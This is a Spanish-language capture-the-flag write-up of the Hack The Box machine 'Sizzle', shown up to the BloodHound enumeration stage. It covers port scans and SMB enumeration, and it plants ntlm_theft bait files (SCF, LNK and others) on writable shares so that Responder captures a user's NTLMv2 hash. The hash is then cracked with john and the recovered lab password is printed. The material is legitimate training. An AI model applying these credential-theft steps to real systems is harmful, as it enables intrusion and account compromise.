+++
author = "Andrés Del Cerro"
title = "Hack The Box: Sizzle Writeup | Insane"
date = "2024-08-30"
description = ""
tags = [
    "HackTheBox",
    "Sizzle",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "SMB Enumeration",
    "CIFS Mounting",
    "NTLM Stealing",
    "Abusing SCF",
    "Hash Cracking",
    "Cracking",
    "Bloodhound Enumeration",
    "Certificates",
    "Private Key",
    "WinRM",
    "Bypassing AppLocker",
    "Kerberoasting",
    "Lateral Movement",
    "RunasCs.exe",
    "User Pivoting",
    "DCSync",
    "Pass The Hash"
]

+++

# Hack The Box: Sizzle Writeup

Welcome to my detailed writeup of the insane difficulty machine **"Sizzle"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.208.237 --ulimit 5000 -g
10.129.208.237 -> [21,53,80,135,139,389,443,445,464,593,636,3268,3269,5986,5985,9389,47001,49664,49692,49690,49665,49666,49671,49668,49694,49697,49708,49711,49737]
```

```console
nmap -p21,53,80,135,139,389,443,445,464,593,636,3268,3269,5986,5985,9389,47001,49664,49692,49690,49665,49666,49671,49668,49694,49697,49708,49711,49737 -sCV 10.129.208.237 -oN allPorts
Nmap scan report for 10.129.208.237
Host is up (0.040s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2024-08-30T14:17:44+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2024-08-30T14:17:44+00:00; +1s from scanner time.
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
| tls-alpn: 
|   h2
|_  http/1.1
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2024-08-30T14:17:44+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
|_ssl-date: 2024-08-30T14:17:44+00:00; +1s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
|_ssl-date: 2024-08-30T14:17:44+00:00; +1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2024-08-30T14:17:44+00:00; +1s from scanner time.
|_http-title: Not Found
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
| tls-alpn: 
|   h2
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49737/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SIZZLE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-08-30T14:17:03
|_  start_date: 2024-08-30T14:05:32

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 30 16:17:50 2024 -- 1 IP address (1 host up) scanned in 110.25 seconds
```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.208.237 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 16:18 CEST
Nmap scan report for 10.129.208.237
Host is up (0.063s latency).
Not shown: 1497 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
```

Del escaneo inicial encontramos el dominio al que nos enfrentamos, `HTB.LOCAL` y probablemente el CN del DC, `sizzle.HTB.LOCAL`

# FTP Enumeration

Podemos iniciar sesión por FTP como el usuario `anonymous` pero no vemos ningún recurso.

```console
$ ftp anonymous@10.129.208.237
Connected to 10.129.208.237.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||62269|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

No tengo permisos de escritura.
```console
$ ftp anonymous@10.129.208.237
Connected to 10.129.208.237.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||54261|)
550 Access is denied. 
```

# SMB Enumeration

Podemos listar recursos compartidos a nivel de red con `smbmap` y vemos que tenemos permisos de escritura en el recurso `Department Shares`.

Otra cosa curiosa que encontramos es el recurso `CertEnroll`, este recurso nos indica que existe un servicio ADCS detrás.

> The CertEnroll component of the Keyfactor Web APIs includes all methods necessary to programmatically request and obtain a certificate.

```console
$ smbmap -H 10.129.208.237 -u 'null'
[+] Guest session       IP: 10.129.208.237:445  Name: 10.129.208.237                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        CertEnroll                                              NO ACCESS       Active Directory Certificate Services share
        Department Shares                                       READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Operations                                              NO ACCESS
        SYSVOL                                                  NO ACCESS       Logon server share 
```

Además a través del IIS podríamos generarnos un certificado para algún usuario. Esto lo apuntamos para mas adelante ya que nos puede servir para hacer un movimiento lateral.

Pero ahora vamos a analizar los recursos de `Department Shares`.

Podemos hacer esto con `smbclient`.
```console
$ smbclient "\\\\10.129.208.237\\Department Shares" -U 'null' -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Jul  3 17:22:32 2018
  ..                                  D        0  Tue Jul  3 17:22:32 2018
  Accounting                          D        0  Mon Jul  2 21:21:43 2018
  Audit                               D        0  Mon Jul  2 21:14:28 2018
  Banking                             D        0  Tue Jul  3 17:22:39 2018
  CEO_protected                       D        0  Mon Jul  2 21:15:01 2018
  Devops                              D        0  Mon Jul  2 21:19:33 2018
  Finance                             D        0  Mon Jul  2 21:11:57 2018
  HR                                  D        0  Mon Jul  2 21:16:11 2018
  Infosec                             D        0  Mon Jul  2 21:14:24 2018
  Infrastructure                      D        0  Mon Jul  2 21:13:59 2018
  IT                                  D        0  Mon Jul  2 21:12:04 2018
  Legal                               D        0  Mon Jul  2 21:12:09 2018
  M&A                                 D        0  Mon Jul  2 21:15:25 2018
  Marketing                           D        0  Mon Jul  2 21:14:43 2018
  R&D                                 D        0  Mon Jul  2 21:11:47 2018
  Sales                               D        0  Mon Jul  2 21:14:37 2018
  Security                            D        0  Mon Jul  2 21:21:47 2018
  Tax                                 D        0  Mon Jul  2 21:16:54 2018
  Users                               D        0  Tue Jul 10 23:39:32 2018
  ZZ_ARCHIVE                          D        0  Mon Jul  2 21:32:58 2018
```

Y vemos muchísimos recursos.

## Mounting SMB CIFS
Para trabajar mas cómodamente vamos a montar este fichero con `mount` para crear una montura de tipo `CIFS` y poder movernos por los directorios mas fácilmente.

Primero instalamos `cifs-utils` que pensaba que venía por defecto en Parrot..

```console
sudo apt install cifs-utils
```

Y ahora montamos este recurso en un directorio que había creado posteriormente en `/mnt/montura`
```console
$ sudo mount -t cifs "\\\\10.129.208.237\\Department Shares" /mnt/montura/
```

Ahora como podemos ver ya tenemos estos recursos en `/mnt/montura`.
```console
$ ls -la /mnt/montura
total 24
drwxr-xr-x 2 root root 24576 jul  3  2018  .
drwxr-xr-x 1 root root    14 ago 30 16:27  ..
drwxr-xr-x 2 root root     0 jul  2  2018  Accounting
drwxr-xr-x 2 root root     0 jul  2  2018  Audit
drwxr-xr-x 2 root root     0 jul  3  2018  Banking
drwxr-xr-x 2 root root     0 jul  2  2018  CEO_protected
drwxr-xr-x 2 root root     0 jul  2  2018  Devops
drwxr-xr-x 2 root root     0 jul  2  2018  Finance
drwxr-xr-x 2 root root     0 jul  2  2018  HR
drwxr-xr-x 2 root root     0 jul  2  2018  Infosec
drwxr-xr-x 2 root root     0 jul  2  2018  Infrastructure
drwxr-xr-x 2 root root     0 jul  2  2018  IT
drwxr-xr-x 2 root root     0 jul  2  2018  Legal
drwxr-xr-x 2 root root     0 jul  2  2018 'M&A'
drwxr-xr-x 2 root root     0 jul  2  2018  Marketing
drwxr-xr-x 2 root root     0 jul  2  2018 'R&D'
drwxr-xr-x 2 root root     0 jul  2  2018  Sales
drwxr-xr-x 2 root root     0 jul  2  2018  Security
drwxr-xr-x 2 root root     0 jul  2  2018  Tax
drwxr-xr-x 2 root root     0 jul 10  2018  Users
drwxr-xr-x 2 root root     0 jul  2  2018  ZZ_ARCHIVE
```

## NTLM Theft -> SCF file
Vemos que el único directorio que contiene ficheros es `ZZ_ARCHIVE`.
```console
$ find . -type f
./ZZ_ARCHIVE/AddComplete.pptx
./ZZ_ARCHIVE/AddMerge.ram
./ZZ_ARCHIVE/ConfirmUnprotect.doc
./ZZ_ARCHIVE/ConvertFromInvoke.mov
./ZZ_ARCHIVE/ConvertJoin.docx
./ZZ_ARCHIVE/CopyPublish.ogg
./ZZ_ARCHIVE/DebugMove.mpg
./ZZ_ARCHIVE/DebugSelect.mpg
./ZZ_ARCHIVE/DebugUse.pptx
./ZZ_ARCHIVE/DisconnectApprove.ogg
./ZZ_ARCHIVE/DisconnectDebug.mpeg2
./ZZ_ARCHIVE/EditCompress.xls
./ZZ_ARCHIVE/EditMount.doc
./ZZ_ARCHIVE/EditSuspend.mp3
./ZZ_ARCHIVE/EnableAdd.pptx
./ZZ_ARCHIVE/EnablePing.mov
./ZZ_ARCHIVE/EnableSend.ppt
./ZZ_ARCHIVE/EnterMerge.mpeg
./ZZ_ARCHIVE/ExitEnter.mpg
./ZZ_ARCHIVE/ExportEdit.ogg
./ZZ_ARCHIVE/GetOptimize.pdf
./ZZ_ARCHIVE/GroupSend.rm
./ZZ_ARCHIVE/HideExpand.rm
./ZZ_ARCHIVE/InstallWait.pptx
./ZZ_ARCHIVE/JoinEnable.ram
./ZZ_ARCHIVE/LimitInstall.doc
./ZZ_ARCHIVE/LimitStep.ppt
./ZZ_ARCHIVE/MergeBlock.mp3
./ZZ_ARCHIVE/MountClear.mpeg2
./ZZ_ARCHIVE/MoveUninstall.docx
./ZZ_ARCHIVE/NewInitialize.doc
./ZZ_ARCHIVE/OutConnect.mpeg2
./ZZ_ARCHIVE/PingGet.dot
./ZZ_ARCHIVE/ReceiveInvoke.mpeg2
./ZZ_ARCHIVE/RemoveEnter.mpeg3
./ZZ_ARCHIVE/RemoveRestart.mpeg
./ZZ_ARCHIVE/RequestJoin.mpeg2
./ZZ_ARCHIVE/RequestOpen.ogg
./ZZ_ARCHIVE/ResetCompare.avi
./ZZ_ARCHIVE/ResetUninstall.mpeg
./ZZ_ARCHIVE/ResumeCompare.doc
./ZZ_ARCHIVE/SelectPop.ogg
./ZZ_ARCHIVE/SuspendWatch.mp4
./ZZ_ARCHIVE/SwitchConvertFrom.mpg
./ZZ_ARCHIVE/UndoPing.rm
./ZZ_ARCHIVE/UninstallExpand.mp3
./ZZ_ARCHIVE/UnpublishSplit.ppt
./ZZ_ARCHIVE/UnregisterPing.pptx
./ZZ_ARCHIVE/UpdateRead.mpeg
./ZZ_ARCHIVE/WaitRevoke.pptx
./ZZ_ARCHIVE/WriteUninstall.mp3
```

Vemos que todos estos archivos tienen el mismo peso, algo extraño.

```console
$ ls -la | head -n 10
total 21036
drwxr-xr-x 2 root root      0 jul  2  2018 .
drwxr-xr-x 2 root root  24576 jul  3  2018 ..
-rwxr-xr-x 1 root root 419430 jul  2  2018 AddComplete.pptx
-rwxr-xr-x 1 root root 419430 jul  2  2018 AddMerge.ram
-rwxr-xr-x 1 root root 419430 jul  2  2018 ConfirmUnprotect.doc
-rwxr-xr-x 1 root root 419430 jul  2  2018 ConvertFromInvoke.mov
-rwxr-xr-x 1 root root 419430 jul  2  2018 ConvertJoin.docx
-rwxr-xr-x 1 root root 419430 jul  2  2018 CopyPublish.ogg
-rwxr-xr-x 1 root root 419430 jul  2  2018 DebugMove.mpg
```

Vamos a coger el fichero `AddComplete.pptx` por ejemplo y a ver con `xxd` cual es su contenido.

Y vemos que el fichero está lleno de Null Bytes.
```console
$ xxd AddComplete.pptx | head -n 15
00000000: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000010: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000080: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000090: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000b0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000c0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000d0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
```

Así son todos los ficheros..

Nos encontramos nombres de usuarios en el directorio `Users` pero sin ningún fichero.


Como no encontré nada, quería saber en que ficheros tenía permisos de escritura.

Con un simple one-liner en bash podemos conseguir esto.

Vemos que en los directorios `ZZ_ARCHIVE` y `Users/Public` tenemos permisos de escritura.
```console
find . -type d -exec sh -c 'echo "test" > "$1/test.txt" 2>/dev/null && echo "Writable: $1" && rm "$1/test.txt"' sh {} \; 2>/dev/null
Writable: ./Users/Public
Writable: ./ZZ_ARCHIVE
```

Al buscar como intentar robar un hash NTLM a través de un archivo me encontré con [esta publicación](https://www.hackingarticles.in/multiple-files-to-capture-ntlm-hashes-ntlm-theft/)

Donde se habla de [este repositorio](https://github.com/Greenwolf/ntlm_theft)el cual automatiza el generar varios archivos con los cuales podríamos robar un hash NTLM si un usuario le hace click.


Nos clonamos el repositorio en otra carpeta.
```console
$ git clone https://github.com/Greenwolf/ntlm_theft
Cloning into 'ntlm_theft'...
remote: Enumerating objects: 135, done.
remote: Counting objects: 100% (28/28), done.
remote: Compressing objects: 100% (25/25), done.
remote: Total 135 (delta 13), reused 6 (delta 3), pack-reused 107 (from 1)
Receiving objects: 100% (135/135), 2.12 MiB | 6.32 MiB/s, done.
Resolving deltas: 100% (61/61), done.
```

Se necesita instalar una dependencia con `pip` llamada `xlsxwriter` , en mi caso ya la tenía instalada.

Ahora podemos generar todos estos archivos.
```console
$ python3 ntlm_theft.py -g all -s 10.10.14.66 -f pwn
Created: pwn/pwn.scf (BROWSE TO FOLDER)
Created: pwn/pwn-(url).url (BROWSE TO FOLDER)
Created: pwn/pwn-(icon).url (BROWSE TO FOLDER)
Created: pwn/pwn.lnk (BROWSE TO FOLDER)
Created: pwn/pwn.rtf (OPEN)
Created: pwn/pwn-(stylesheet).xml (OPEN)
Created: pwn/pwn-(fulldocx).xml (OPEN)
Created: pwn/pwn.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: pwn/pwn-(includepicture).docx (OPEN)
Created: pwn/pwn-(remotetemplate).docx (OPEN)
Created: pwn/pwn-(frameset).docx (OPEN)
Created: pwn/pwn-(externalcell).xlsx (OPEN)
Created: pwn/pwn.wax (OPEN)
Created: pwn/pwn.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: pwn/pwn.asx (OPEN)
Created: pwn/pwn.jnlp (OPEN)
Created: pwn/pwn.application (DOWNLOAD AND OPEN)
Created: pwn/pwn.pdf (OPEN AND ALLOW)
Created: pwn/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: pwn/Autorun.inf (BROWSE TO FOLDER)
Created: pwn/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

Y aquí los tenemos.
```console
$ ls
 Autorun.inf                pwn.htm                     'pwn-(remotetemplate).docx'
 desktop.ini               'pwn-(icon).url'              pwn.rtf
 pwn.application           'pwn-(includepicture).docx'   pwn.scf
 pwn.asx                    pwn.jnlp                    'pwn-(stylesheet).xml'
'pwn-(externalcell).xlsx'   pwn.lnk                     'pwn-(url).url'
'pwn-(frameset).docx'       pwn.m3u                      pwn.wax
'pwn-(fulldocx).xml'        pwn.pdf                      zoom-attack-instructions.txt
```

Nos podemos quedar en escucha de eventos con `responder` para ver si interceptamos un hash NTLMv2.
```console
$ sudo responder -I tun0
```

Ahora podemos copiar todos estos archivos en los directorios `/Users/Public` y en `ZZ_ARCHIVE`.
```console
┌─[root@parrot]─[/mnt/montura/Users/Public]
└──╼ #cp /home/pointedsec/Desktop/sizzle/content/ntlm_theft/pwn/* . && cp /home/pointedsec/Desktop/sizzle/content/ntlm_theft/pwn/* ../../ZZ_ARCHIVE/.
```

Y conseguimos el hash NTLMv2 del usuario `amanda`
```console
[SMB] NTLMv2-SSP Client   : 10.129.208.237
[SMB] NTLMv2-SSP Username : HTB\amanda
[SMB] NTLMv2-SSP Hash     : amanda::HTB:473f6808eb82e74e:CC6A5FE38F1350BC661FE877D336A096:01010000000000008061ACBCFBFADA01EAD9DCC7BEBC45EF000000000200080054004A003800320001001E00570049004E002D0051003800420048005300380054003100320032004D0004003400570049004E002D0051003800420048005300380054003100320032004D002E0054004A00380032002E004C004F00430041004C000300140054004A00380032002E004C004F00430041004C000500140054004A00380032002E004C004F00430041004C00070008008061ACBCFBFADA0106000400020000000800300030000000000000000100000000200000B6D866B8823BD6BE8F91C9086172F651BEC219F88CD4D28C61AD8AA51857E5850A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0036003600000000000000000000000000
```

## Cracking NTLMv2
Ahora podemos intentar crackear este hash con `john`.

```console
$ john -w=/usr/share/wordlists/rockyou.txt hash.amanda 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ashare1972       (amanda)     
1g 0:00:00:04 DONE (2024-08-30 16:44) 0.2020g/s 2306Kp/s 2306Kc/s 2306KC/s Ashiah08..Ariel!
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```
Y conseguimos crackear este hash, la credencial de `amanda` es `Ashare1972`

Podemos comprobarlo con `netexec`
```console
$ nxc smb 10.129.208.237 -u amanda -p Ashare1972
SMB         10.129.208.237  445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.208.237  445    SIZZLE           [+] HTB.LOCAL\amanda:Ashare1972 
```

Para comprobar si tiene acceso a WinRM, es decir, que el usuario pertenece al grupo `Remote Management Users` no puedo utilizar `netexec` o al menos la versión que tengo instalada en mi sistema ya que no soporta WinRM a través de HTTPS.

Podemos utilizar `evil-winrm` con la flag `--ssl` y vemos que no conseguimos conectarnos.

```console
$ evil-winrm -i 10.129.208.237 -u amanda -p Ashare1972 --ssl
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type ArgumentError happened, message is unknown type: 2916725146
                                        
Error: Exiting with code 1
```

Ahora que tenemos credenciales podemos hacer otra ronda de enumeración a ver que encontramos.

En el SMB vemos que ahora tenemos mas directorios en los que podemos leer.
```console
$ nxc smb 10.129.208.237 -u amanda -p Ashare1972 --shares
SMB         10.129.208.237  445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.208.237  445    SIZZLE           [+] HTB.LOCAL\amanda:Ashare1972 
SMB         10.129.208.237  445    SIZZLE           [*] Enumerated shares
SMB         10.129.208.237  445    SIZZLE           Share           Permissions     Remark
SMB         10.129.208.237  445    SIZZLE           -----           -----------     ------
SMB         10.129.208.237  445    SIZZLE           ADMIN$                          Remote Admin
SMB         10.129.208.237  445    SIZZLE           C$                              Default share
SMB         10.129.208.237  445    SIZZLE           CertEnroll      READ            Active Directory Certificate Services share
SMB         10.129.208.237  445    SIZZLE           Department Shares READ            
SMB         10.129.208.237  445    SIZZLE           IPC$            READ            Remote IPC
SMB         10.129.208.237  445    SIZZLE           NETLOGON        READ            Logon server share
SMB         10.129.208.237  445    SIZZLE           Operations                      
SMB         10.129.208.237  445    SIZZLE           SYSVOL          READ            Logon server share
```

## Bloodhound
Vamos a enumerar con `bloodhound-python` a ver si encontramos un vector de ataque.

Si no podemos enumerar manualmente el servicio LDAP, SMB, o intentar generar un certificado para `amanda` a través del IIS. Si tenemos esa opción ya que aún no he enumerado el IIS.

```console
$ bloodhound-python -d htb.local -v -c All -dc sizzle.htb.local -ns 10.129.208.237 -u amanda -p Ashare1972
```

```console
$ ls
20240830165713_computers.json   20240830165713_gpos.json    20240830165713_users.json
20240830165713_containers.json  20240830165713_groups.json
20240830165713_domains.json     20240830165713_ous.json
```

Ahora iniciamos la base de datos `neo4j` que es la que utiliza `bloodhound`.
```console
$ sudo neo4j start
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:178580). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

Ahora podemos iniciar `bloodhound`.
```console
$ bloodhound &
[1] 179113
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop]
└──╼ [★]$ disown %1
```

Y me di cuenta de que el usuario `amanda` si que pertenece al grupo `Remote Management Users` por lo cual probablemente necesitemos un certificado para poder obtener una consola a través de `WinRM`.


Detectamos que el usuario `mrlky` es kerberoasteable.


Y encima detectamos que este usuario tiene permiso para efectuar un DCSync sobre el dominio.
